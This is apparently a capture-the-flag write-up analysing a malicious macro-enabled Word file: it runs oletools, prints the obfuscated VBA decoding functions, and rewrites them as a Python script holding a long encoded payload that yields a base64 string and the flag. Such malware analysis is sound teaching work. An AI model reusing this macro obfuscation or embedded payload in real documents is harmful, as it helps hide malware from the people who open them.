




# WRITE_UP #

## HALLOWEEN INVITATION ##

### 1. Analysis ###
* **Given:** a docm file named `invitation`.
* **Description:** An email notification pops up. It's from your theater group. Someone decided to throw a party. The invitation looks awesome, but there is something suspicious about this document. Maybe you should take a look before you rent your banana costume.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### HALLOWEEN PARTY WENT WRONG ####
Given a `.docm` file, let's use `oletools` to analyze it. First I ran `oleid` to determine the uncommon



As you can see, there's a high chance that a malicious VBA Macro is injected in the document. Now let's use `olevba` to investigate the vba:



The VBA is obfuscated, I copied the scripts to a file to analyze it easier. So there are 2 functions and a variable that being appended by some very long strings, here the two functions:

```vb
Function uxdufnkjlialsyp(ByVal tiyrahvbz As String) As String
Dim nqjveawetp As Long
For nqjveawetp = 1 To Len(tiyrahvbz) Step 2
uxdufnkjlialsyp = uxdufnkjlialsyp & Chr$(Val("&H" & Mid$(tiyrahvbz, nqjveawetp, 2)))
Next nqjveawetp
End Function

Private Function wdysllqkgsbzs(strBytes) As String
Dim aNumbers
Dim fxnrfzsdxmcvranp As String
Dim iIter
fxnrfzsdxmcvranp = ""
aNumbers = Split(strBytes)
For iIter = LBound(aNumbers) To UBound(aNumbers)
fxnrfzsdxmcvranp = fxnrfzsdxmcvranp + Chr(aNumbers(iIter))
Next
wdysllqkgsbzs = fxnrfzsdxmcvranp
End Function
```
* Function `uxdufnkjlialsyp`:
  1. Takes a string as an input, then use a for loop with a step plus by 2, it lools like this: `for (i = 1; i < len; i+=2)`. 
  2. `Mid$(tiyrahvbz, nqjveawetp, 2)` extracts 2 characters from the string `tiyrahvbz` start from index `nqjveawetp`. You can read more about it here: [Mid function](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/mid-function)
  3. Add a prefix `&H` to tell computer this is a hex number.
  4. `Val` turns hex numbers to decimal numbers.
  5. `Chr` turns decimal numbers to ascii letters.
* Function `wdysllqkgsbzs`:
  1. Takes a string number as an input
  2. `Split` to break the input string into an array of different number strings.
  3. Use a for loop to iriterate through all the number
  4. Turn number to ascii letter
These functions used to obfuscate malicious payloads the attacker try to do.
* Var `fxnrfzsdxmcvranp` uses those 2 functions to decode the payload.

Now let's rewrite the vba code into a python script and decode the attacker's payload:
```python
import binascii

def hextoascii(hex): # function uxdufnkjlialsyp
    decoded = binascii.unhexlify(hex).decode('utf-8')
    return decoded

def dectoascii(dec): # function wdysllqkgsbzs
    decoded = "".join([chr(int(x)) for x in dec.split()])
    return decoded

a = ""
a = a + dectoascii(hextoascii("3734203635203636203132322036352036382034382036352037342031") + hextoascii("31392036352035312036352036382039392036352037362031303320363520353120363520363820383120363520373620313033"))
a = a + dectoascii(hextoascii("363520313230203635203638203130") + hextoascii("37203635203739203635203635203131372036352036382038352036352037372031303320363520353420363520363820313033203635203737203635203635203532"))
a = a + dectoascii(hextoascii("3635203638203635203635203734") + hextoascii("20313139203635203535203635203637203831203635203937203831203635203537203635203637203939203635203930203635203635203438203635203638203737"))
a = a + dectoascii(hextoascii("3635203839203130332036362031303620363520373120373720363520373820313033203636203130372036352036") + hextoascii("37203438203635203737203635203635203438203635203638203737203635203930"))
a = a + dectoascii(hextoascii("313033203635203132312036352036382038312036352037372036352036352035") + hextoascii("33203635203637203438203635203738203131392036362031303820363520373120363920363520373720313033203635"))
a = a + dectoascii(hextoascii("313232203635203731203639203635203737203130332036362031303620363520363720393920363520373920313139203635203130372036352037322036352036352038302038312036352031") + hextoascii("3130203635"))
a = a + dectoascii(hextoascii("373120313033203635203130302036352036362034382036352037322036352036352037392031303320") + hextoascii("36352031313820363520363720353620363520373420313139203635203535203635203637203831"))
a = a + dectoascii(hextoascii("36352031303020313033203635203537203635203639203130372036352039382031303320363620353020363520373120353620363520393720313139203636203130382036352036372034") + hextoascii("38203635203835"))
a = a + dectoascii(hextoascii("31303320363620313038203635203732203737203635203130302036352036362037382036352037312038352036352031303020363520363620313131203635203731203536203635203930") + hextoascii("203635203635"))
a = a + dectoascii(hextoascii("313033203635203637203438203635203836203831203636203132322036352037312038") + hextoascii("35203635203831203130332036362031303420363520373220373720363520393720383120363620313036203635"))
a = a + dectoascii(hextoascii("373020363520363520383920383120363620313231203635203732203737203635203937203831203636") + hextoascii("2031313720363520373120393920363520373320363520363520313136203635203730203835203635"))
a = a + dectoascii(hextoascii("3939203130332036362031313220363520363720363520363520373420363520363620313139203635203637203831203635203939203131392036352031313820") + hextoascii("3635203731203831203635203738203635"))
a = a + dectoascii(hextoascii("363520313232203635203731203733203635") + hextoascii("20383920313139203636203130362036352036382038392036352039302036352036352031303320363520363720343820363520383320363520363620313038"))
a = a + dectoascii(hextoascii("36352037312036392036352039302036352036362031303820363520373220373320363520393920313139203635") + hextoascii("20313033203635203639203635203635203130312031313920363520313035203635203639"))
a = a + dectoascii(hextoascii("363920363520313030203831203636203438203635203731203130332036352039") + hextoascii("38203131392036362031323120363520373120313037203635203130312031303320363620313034203635203732203831"))
a = a + dectoascii(hextoascii("363520393720383120363620") + hextoascii("313138203635203731203532203635203733203130332036352035372036352036372038312036352039372038312036362035372036352036382031313520363520313030"))
a = a + dectoascii(hextoascii("313139203636203131312036352037312031303720363520393820363520363620313038") + hextoascii("2036352036372036352036352037352036352036352031303720363520373220383120363520393920313033203636"))
a = a + dectoascii(hextoascii("34392036352037312038352036352037352038312036362035352036352036372038312036352038392031313920363520353720363520363720313033203635203833203831203636203131") + hextoascii("37203635203732"))
a = a + dectoascii(hextoascii("38392036352039382031313920363620313134203635203731203835203635203736203831203636203833") + hextoascii("20363520373120383520363520393920313139203636203438203635203639203438203635203930"))
a = a + dectoascii(hextoascii("38312036362034382036352037312031303320363520393820313139203636203130372036352036372036352036352037362038312036362038362036352037322037") + hextoascii("37203635203930203831203636203637"))
a = a + dectoascii(hextoascii("363520373120363920363520393920313139203636203131322036352037312037372036352038352036352036362031303420363520") + hextoascii("37322037332036352039392031313920363620313132203635203731"))
a = a + dectoascii(hextoascii("35322036352039302031313920363520313033203635203637203438203635203836203831203636203132312036352037312031303720363520373320363520363520313037203635203732203635") + hextoascii("203635"))
a = a + dectoascii(hextoascii("37342036352036362031323220363520363720") + hextoascii("35362036352037372036352036352034382036352036382037372036352039302031303320363520313231203635203638203831203635203737203635203635"))
a = a + dectoascii(hextoascii("353320363520363720363520363520373620383120363620373320363520373120383520363520383920383120363620313037203635") + hextoascii("2037312038352036352039392031303320363620313232203635203637"))
a = a + dectoascii(hextoascii("36352036352038312036352036362035352036352036372037332036352038") + hextoascii("3120383120363620343920363520373220383120363520393720363520363620313138203635203732203733203635203937"))
a = a + dectoascii(hextoascii("383120363620353420363520373120363920363520") + hextoascii("313030203635203636203131322036352037312035362036352039382031303320363520313035203635203638203438203635203734203635203636"))
a = a + dectoascii(hextoascii("31313220363520373220343820363520") + hextoascii("37352038312036352035352036352037312031303720363520393020313033203635203130332036352036372031303320363520373420363520363620313036203635"))
a = a + dectoascii(hextoascii("3637") + hextoascii("20363520363520373620383120363620313137203635203731203835203635203733203635203635203131302036352036392035322036352039382031313920363620313137203635203731203835"))
a = a + dectoascii(hextoascii("363520373420313139203635203131322036352036372036352036352031303120313139203635203130372036352037322037332036352038302038312036362031313220363520") + hextoascii("373120383520363520313031"))
a = a + dectoascii(hextoascii("36352036352031303320") + hextoascii("363520363720383120363520383920313139203635203130332036352036372034382036352038322038312036362031323120363520373220373320363520393820313139203636"))
a = a + dectoascii(hextoascii("3132312036352036392036392036352038392031313920363620343820363520373120313037203635203938203131392036362031313720363520") + hextoascii("363720363520363520383520313139203636203438203635"))
a = a + dectoascii(hextoascii("3731203536203635203939203635203635203130332036352036372034382036352038322038312036362031323120") + hextoascii("36352037322037332036352039382031313920363620313231203635203730203839"))
a = a + dectoascii(hextoascii("363520383920383120363620313231203635203731203130372036352038392038") + hextoascii("31203636203130352036352037312031313920363520393020383120363520313033203635203731203835203635203739"))
a = a + dectoascii(hextoascii("3131392036352031303720363520373220373320363520383020383120") + hextoascii("3636203830203635203732203835203635203130302036352036352031313620363520373020373720363520313030203635203636"))
a = a + dectoascii(hextoascii("3132312036352037") + hextoascii("31203130372036352039382031303320363620313130203635203637203635203635203736203831203636203734203635203731203532203635203939203635203636203439203635"))
a = a + dectoascii(hextoascii("37322038312036352038342031313920363620313035203635203731203131312036352039302038312036362031303620363520373220383120363520373320363520363520313037203635203732") + hextoascii("203733"))
a = a + dectoascii(hextoascii("3635203739203131392036352031303720363520373220383120363520383020383120363620") + hextoascii("373420363520373120353220363520313030203130332036362031313820363520373120313135203635203930"))
a = a + dectoascii(hextoascii("38312036352031313620363520373020373320363520393020383120363620313232203635203732203831203635203834203831203636203130") + hextoascii("3820363520373220383120363520393720363520363620313138"))
a = a + dectoascii(hextoascii("3635203731203831203635203733") + hextoascii("20363520363520313136203635203730203835203635203939203130332036362031313220363520363720363520363520373420363520363620313139203635203637"))
a = a + dectoascii(hextoascii("3831203635203939203131392036352031313820363520363820393920363520393020383120363620313034203635203638203733203635203737203131392036362031303420363520363820373320") + hextoascii("3635"))
a = a + dectoascii(hextoascii("38392031313920363520313033203635203637203438203635203834203831203636203130382036352037322038312036352039372036352036362031313820363520373120") + hextoascii("3831203635203733203635"))
a = a + dectoascii(hextoascii("363620383120") + hextoascii("36352036392035362036352038352031313920363620383520363520363720363520363520373620383120363620373320363520373120383520363520383920383120363620313037203635"))
a = a + dectoascii(hextoascii("37312038352036352039392031303320363620313232203635203637203635203635203831203635203636203535") + hextoascii("203635203637203733203635203831203831203636203439203635203732203831203635"))
a = a + dectoascii(hextoascii("3937203635203636203131382036352037322037332036352039372038312036362035342036352037312036392036352031303020363520363620313132203635203731203536203635203938") + hextoascii("20313033"))
a = a + dectoascii(hextoascii("3635203130352036352036382034382036352037342036352036362031313220363520373220343820363520373320363520363520") + hextoascii("3131362036352036392037332036352039382031313920363620313037"))
a = a + dectoascii(hextoascii("363520373220") + hextoascii("3130372036352037332036352036352031313120363520373020313135203635203835203131392036362035332036352037322037372036352031303020363520363620313038203635203731"))
a = a + dectoascii(hextoascii("3438203635") + hextoascii("203736203130332036362038352036352037312038352036352031303120363520363620343820363520363720353220363520383220383120363620313137203635203731203737203635203938"))
a = a + dectoascii(hextoascii("3131392036362031303720363520373120313037203635203938203130332036362031313020363520373020343820363520373920313033203635203534203635203730203835203635") + hextoascii("203836203635203636"))
a = a + dectoascii(hextoascii("37312036352036382031303320363520373620313033203636203732203635203731") + hextoascii("20383520363520313030203635203636203637203635203732203130372036352031303020363520363620313038203635"))
a = a + dectoascii(hextoascii("3732203737203635203735203635203635203130372036352037312038352036352037352031313920363520313037203635203732203733203635203735203831203635") + hextoascii("20313033203635203637203438"))
a = a + dectoascii(hextoascii("36352039372031303320363620") + hextoascii("3131382036352037312031303720363520393820313033203635203130332036352036372039392036352037332036352036352031313020363520363720313037203635"))
a = a + dectoascii(hextoascii("313032") + hextoascii("20383120363520313033203635203732203737203635203938203635203636203130382036352037312038352036352039392036352036352031303320363520363820363520363520373620313033"))
a = a + dectoascii(hextoascii("363520353220363520373220343820363520383320363520363620") + hextoascii("3835203635203639203733203635203130312031313920363520343920363520373220383520363520393920363520363520313232203635"))
a = a + dectoascii(hextoascii("373220373320363520383820313139203635203132322036352036382038312036352037382038") + hextoascii("31203636203533203635203730203536203635203938203831203635203438203635203731203737203635"))
a = a + dectoascii(hextoascii("393920313033203635203131392036352036382038352036352031303220383120") + hextoascii("3635203631"))
print(a)
```



Using `CyberChef` to decode the base64 string, we will get the flag:



### 3. Solution ###
1. **Result:** The flag is `HTB{5up3r_345y_m4cr05}`


